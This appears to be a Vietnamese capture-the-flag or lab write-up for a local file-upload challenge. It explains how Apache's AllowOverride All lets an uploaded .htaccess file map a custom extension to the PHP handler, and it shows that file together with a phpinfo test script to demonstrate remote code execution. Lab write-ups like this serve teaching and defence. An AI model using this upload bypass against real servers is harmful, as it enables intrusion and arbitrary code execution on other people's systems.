







# File Upload ở localhost:12004
### 1. Tổng quan

- lv4 là 1 website để upload file, bấm vào nút Choose File để up file, sau đó submit và có thể click vào link xem nội dụng file đã up

    
    
Báo cáo này liệt kê các lỗ hổng bảo mật và những vấn đề liên quan được tìm thấy trong quá trình kiểm thử
website. Quá trình kiểm thử được thực hiện dưới hình thức blackbox/Whitebox testing.
### 2. Phạm vi
### 3. Lỗ hổng 

#### Description

Trang web `http://localhost:12004/` là 1 website cho phép upload file và truy nhập trực tiếp file sau khi submit bằng cách click vào link đó.
    
#### Impact

Tại đây, kẻ tấn công có thể upload file và thực thi mã tùy ý trên server, dẫn đến **Remote Code Execution (RCE)**.

#### Root-cause analysis

Trong file cấu hình apache2 `apache2.conf`, ta thấy được rằng server cho phép upload file .htaccess

    <Directory /var/www/>
        Options Indexes FollowSymLinks
        # CHANGELOG: Added to allow .htaccess
        AllowOverride All
        Require all granted
    </Directory>
    #CHANGELOG: Added to allow .htaccess
    AccessFileName .htaccess

Do .htaccess là file config hành vi của apache, chỉ có hiệu lực local ở folder đang chứa nó và các folder con 

Nên việc cho phép user có thể upload file .htaccess lên server sẽ khiến cho hành vi của apache bị thao túng theo ý kẻ tấn công

#### Steps to reproduce

1. Upload file .htaccess 

Với content là AddType application/x-httpd-php với regex: `.+\.phamtong$` sẽ cho phép chạy .phamtong như code PHP chứa nội dung: 

    <FilesMatch ".+\.phamtong$">
    SetHandler application/x-httpd-php
    </FilesMatch>

tự đặt tên extention muốn được mod-php excecute.
    

2. Upload file test.phamtong chứa nội dung 

    <?php
        phpinfo();
    ?>

    
3. Truy cập vào link

    

4. RCE

    
    